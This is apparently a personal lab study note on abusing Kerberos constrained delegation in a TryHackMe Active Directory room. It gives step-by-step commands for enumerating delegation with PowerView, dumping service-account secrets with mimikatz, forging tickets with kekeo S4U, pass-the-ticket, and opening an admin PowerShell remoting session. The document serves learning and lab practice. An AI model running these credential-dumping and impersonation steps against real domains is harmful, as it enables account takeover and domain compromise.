 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

4. Kerberos protocol extensions: Service for User (S4U)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. For all the commands shown in kekeo, I aim to provide the equivalent commands; in terms of functionality, in Rubeus (\*\*PENDING).

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Constrained Delegation Exploitation steps

### Overview of attack

1. Enumerate the available delegations (PowerSploit `Get-NetUser` cmdlet)

* Delegation permissions can be seen from the `msDS-AllowedToDelegateTo` property



2. Retrieve the credentials of the service account (with constrained delegation permission)

* eg. run mimikatz `lsadump::secrets` as an administrator, etc.



3. We can use the credentials obtained to request for a _Ticket Granting Ticket_ (**TGT**) as the service account user: **kekeo** `tgt::ask`&#x20;

* The newly created **TGT** can be used to request for a _Ticket Granting Service_ (**TGS**) on behalf of a specified user ([Service for User (S4U](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94))): **kekeo** `tgs::s4u`&#x20;

> This is possible due to the Kerberos protocol extension: Service for User and Constrained Delegation protocol that allows an application to obtain a Kerberos service ticket on behalf of a user.&#x20;

This means that we can use the **TGT** for a service account to request for a valid **TGS** for _**ANY**_ user account of our choice, as long as the service account has the proper delegation permission for the service in question (service should be listed in the service account's `msDS-AllowedToDelegateTo` property).

Effectively, this means that once we have stolen the password for a service account (with permission delegations to a particular service), we can create a **TGS** for _**ANY**_ user of our choice, and gain access to that service.&#x20;

If the service is of high value, this can lead to impersonation of high-privilege accounts and potentially lead to full domain compromise.



4. Now that we have obtained the **TGS** for our desired user account and service, we can perform a Pass-the-Ticket attack using the mimikatz `kerberos::ptt` tool, and gain access to that particular service as the specified user.

### General example

#### Step 1

Given that we have breached a machine and gained administrative access, we can first try to enumerate available delegations. To achieve this, we can use the `Get-NetUser` cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

#### Step 2

Next, we can use **mimikatz** to dump the secrets of the service account (given that there is a service currently running on the host as that particular service account):

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 3

Now that we have the secret (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT) as the service account. Subsequently, we can generate the _Ticket Granting Service_ (TGS) for a particular user account and service that our identified service account (step 1) can delegate.

> Note that we will first retrieve the **TGT** as the service account, which will be used in the subsequent **TGS** request to retrieve the **TGS** for a user of our choice — administrator account, etc.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<service_account> /domain:<domain> /password:<password>

C:\> rubeus.exe s4u ... 
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>

C:\> rubeus.exe ... 
```
{% endcode %}

#### Step 4

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our user of choice and desired service, we can use it to perform a _Pass-the-Ticket_ attack. This will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

### Example: exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

{% code overflow="wrap" %}
```powershell
PS> Get-Netuser -TrustedToAuth
...
userprincipalname        : svcIIS@za.tryhackme.loc                          
name                     : IIS Server   
...
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
...
```
{% endcode %}

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created TGS:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

Given that we generate a TGS (**kekeo**) as a user that is an administrator on our target machine, we will now have administrative access.

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

